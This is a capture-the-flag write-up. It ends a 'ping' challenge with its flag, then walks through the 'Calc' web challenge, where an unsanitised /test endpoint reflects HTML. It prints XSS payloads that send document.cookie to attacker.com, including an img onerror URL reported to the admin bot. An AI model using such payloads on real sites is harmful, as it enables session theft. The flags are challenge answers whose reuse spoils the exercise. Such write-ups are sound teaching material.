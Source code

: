 Give the following response:

```json
{
	"retrieved" : "ping{fastify-more-like-slowify-hehe-anMtYW5keQ==}"
}
```

flag: *ping{fastify-more-like-slowify-hehe-anMtYW5keQ==}*

---

# Calc

The challenge is a simple calculator website with, once again, the source code provided.

The calculator allows us to do basic operations: add, subtract, multiply and divide.

Trying other things will display an error message:

```
you can't use anything else than numbers,
whitespaces, +, -, ^, / and *. Unfortunately
due to some hackers, we had to limit our great calculator..
```

The site architecture is a bit weird, for the error message to be displayed we are juste redirected to `/?err=[Error message]`. Then the page will query the server that will sanitize the error message and return it.

The sanitization is done using DOMPurify, which is pretty solid. Let's take a look at the code to find another way to exploit it.

## Exploit

We find an interesting endpoint on the server:

```js
fastify.get("/test", async (req, reply) => {
	reply.type("text/html").send(req.query?.html ?? "req query html empty");
});
```

This endpoint will return the `html` query parameter as it is, without any sanitization. We can use this to inject a script that will send the flag to us:

```js
location = "http://attacker.com?" + document.cookie;
```

Which is a classic simple XSS payload.

To make it work, we need to make the bot execute the payload. We can just report an error to the bot to make it check the URL and execute the payload.

Let's just report the relative path:
```
test?html=<img%20src=x%20onerror="location='//attacker.com?c='%2Bdocument['cookie']">
```
